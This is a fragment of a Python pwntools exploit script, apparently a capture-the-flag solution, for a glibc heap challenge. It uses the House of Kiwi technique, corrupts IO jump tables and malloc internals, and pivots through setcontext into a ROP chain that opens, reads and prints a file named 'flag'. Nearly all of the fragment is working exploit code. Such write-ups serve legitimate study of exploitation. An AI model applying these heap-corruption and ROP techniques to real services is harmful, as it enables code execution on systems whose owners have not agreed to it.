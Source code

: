 ```python
delete(0)
add(0x438 , '\x00'*0x2c0 + p64(_IO_file_jumps + 96) + '\x00'*0x98 + flat(_IO_helper_jumps + 0xa0 , heap_base + 0x4bb0 ) ) #设置 entry

delete(4)
add(0x1458 , flat('\x00'*0x208 , 0x431 , __malloc_hook + 0x460,__malloc_hook + 0x460 , 0 , mp_ + 80 - 0x20 ) )
delete(11)


read_addr = libc.sym['read']
open_addr = libc.sym['open']
puts_addr = libc.sym['puts']
leave_ret = libc.search(asm('leave;ret')).next()
pop_rax_ret = libc.search(asm('pop rax; ret')).next()
pop_rdi_ret = libc.search(asm('pop rdi; ret')).next()
pop_rsi_ret = libc.search(asm('pop rsi; ret')).next()
pop_rdx_pop_rbx_ret = libc.search(asm('pop rdx ; pop rbx ; ret')).next()
ret = pop_rdi_ret + 1

flag_addr = heap_base + 0x4770 + 0x100
chain = flat(
    pop_rdi_ret , flag_addr , pop_rsi_ret , 0 , open_addr,
    pop_rdi_ret , 3 , pop_rsi_ret , flag_addr , pop_rdx_pop_rbx_ret , 0x100 , 0 , read_addr,
    pop_rdi_ret , flag_addr , puts_addr
).ljust(0x100,'\x00') + 'flag\x00'
# len chain 0x80

# dbg()
add(0x448 , chain) # copy
add(0x418)

# House of kiwi 三大条件


add(0x1450 , p64(setcontext)[:-1])

add(0x1590 , flat( heap_base + 0x4770 , ret ))
add(0x15a0 , flat( 0 , 0x3e0))
# 0x1450 0x1590 0x15a0
# dbg()

# dbg()
cmd(1)
sla('Size' , 0x1000)

p.interactive()
```



